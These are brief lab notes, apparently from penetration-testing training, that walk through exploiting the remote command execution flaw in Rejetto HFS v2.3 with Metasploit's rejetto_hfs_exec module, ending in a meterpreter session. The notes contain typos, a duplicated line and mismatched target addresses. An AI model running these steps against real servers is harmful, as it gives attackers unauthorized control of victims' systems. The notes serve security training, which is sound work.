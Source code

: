### Exploiting A vulnerable HTTP file server
- An HTTP fle server(HFS) is a web server that is designed for file & document sharing.
- HTTP File Server typically run on TCP port 80 and utilize the HTTP protocol for underlyzing communication
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on both windows and linux server.
- Rejetto HFS is popular free and open source HTTP file server that can be setup on both windows and linux.
- Rejetto HFS v2.3 is vulnerable to a remote command execution attack.
- MSF has an exploit module that can utilize to gain access to the target system hosting the HFS.

#### Lab
- service postgresql start
- msfconsole
- db_status
- workspace -a HFS
##### Exploit
- setg RHOSTS 10.10.10.12
- db_nmap -sS -sV -O 10.2.24.160
- search type:exploit name:rejetto
- use exploit/windows/http/rejetto_hfs_exec
- set requires variables
- run
- this will give us meterpreter sessions
